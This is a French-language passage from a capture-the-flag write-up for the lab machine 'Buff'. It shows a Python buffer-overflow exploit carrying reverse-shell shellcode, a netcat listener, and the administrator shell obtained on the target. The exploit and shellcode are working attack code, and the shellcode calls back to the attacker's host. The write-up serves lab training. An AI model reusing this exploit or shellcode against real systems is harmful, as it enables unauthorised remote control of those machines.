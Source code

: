 ~~~

shellcode=("\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x0a\x0e\x38\x68"
"\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
"\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44"
"\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56"
"\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff"
"\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5")

payload=junk+eip+shellcode

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target,8888))
s.send(payload)
root@Host-001:~/Bureau/htb/buff# 
~~~

Lancer un listener sur le port utilisé dans le payload msfvenom ici 4444

`nc -nlvp 4444` 

Lancer l'exploit

~~~
root@Host-001:~/Bureau/htb/buff# python2.7 exploit.py
root@Host-001:~/Bureau/htb/buff# 
~~~

on a un shell

~~~
root@Host-001:~/Bureau/htb/buff# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.56] from (UNKNOWN) [10.10.10.198] 49682
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
buff\administrator

C:\Windows\system32>cd C:
cd C:
C:\Windows\System32

C:\Windows\system32>cd ..
cd ..

C:\Windows>cd ..
cd ..

~~~